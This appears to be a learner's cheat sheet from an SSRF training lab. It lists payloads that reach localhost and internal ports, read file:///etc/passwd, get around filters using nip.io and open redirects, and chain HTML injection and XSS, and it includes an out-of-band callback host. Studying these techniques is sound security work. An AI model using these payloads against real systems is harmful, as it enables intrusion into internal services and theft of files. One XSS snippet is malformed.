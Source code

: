 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost;</script> 
```

```
<script>window.location = http://localhost;</script> 
```
